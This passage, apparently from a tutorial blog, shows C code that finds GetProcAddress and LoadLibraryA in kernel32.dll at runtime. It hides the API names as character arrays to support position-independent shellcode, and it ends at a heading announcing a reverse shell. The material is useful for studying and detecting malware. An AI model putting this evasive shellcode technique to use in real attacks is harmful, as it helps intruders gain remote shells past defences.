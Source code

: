 Now that two key functions have been developed to:

1. Get a modules address given the name
2. Get a WinAPI address given the base module address and the WinAPI name

The first key function can be used to get the address of `kernel32.dll`. Once that’s done, we can use the second key function to find two important WinAPI’s within `kernel32.dll`: 

- `GetProcAddress`
- `LoadLibraryA`

These APIs will allow us to load other DLLs even if not loaded by the resulting executable and will allow us to get an WinAPI that resides within that module. The following code snippet below shows how we can obtain both WinAPI’s absolute address and use that to dynamically resolve it - essentially casting the address to our own WinAPI to use which will have the same function signatures as the original.

 

{% raw %}

    char get_proc_addr[] = { 'G', 'e', 't', 'P', 'r', 'o', 'c', 'A', 'd', 'd', 'r', 'e', 's', 's', '\0' }; 

    LPVOID getprocaddress_addr = get_func_by_name( kernel32dll_base, get_proc_addr );
    if( NULL == getprocaddress_addr )
    {
        // printf( "[!] Could not find function! Exiting!\n" );
        return 1;
    }
    // printf( "[+] Found GetProcAddress!\n" );

    char load_library[] = { 'L', 'o', 'a', 'd', 'L', 'i', 'b', 'r', 'a', 'r', 'y', 'A', '\0' };    
    LPVOID loadlibrarya_addr = get_func_by_name( kernel32dll_base, load_library );
    if( loadlibrarya_addr == NULL )
    {
        // printf( "[!] Could not find function! Exiting!\n" );
        return 1;
    }
    // printf( "[+] Found LoadLibraryA!\n" );
    
    //
    // Dynamically resolve LoadLibraryA/GetProcAddress
    //
    HMODULE( WINAPI * _LoadLibraryA )( LPCSTR lpLibFileName )                = ( HMODULE(WINAPI*)(LPCSTR))loadlibrarya_addr;
    FARPROC( WINAPI * _GetProcAddress)( HMODULE hModule, LPCSTR lpProcName ) = ( FARPROC (WINAPI*)(HMODULE, LPCSTR))getprocaddress_addr;

    if( NULL == _LoadLibraryA && NULL == _GetProcAddress)
    {
        // printf( "[!] LoadLibraryA or GetProcAddress could not be resolved!\n" );
        return 1;
    }
{% endraw %}

## Position Independent Code for a Reverse Shell
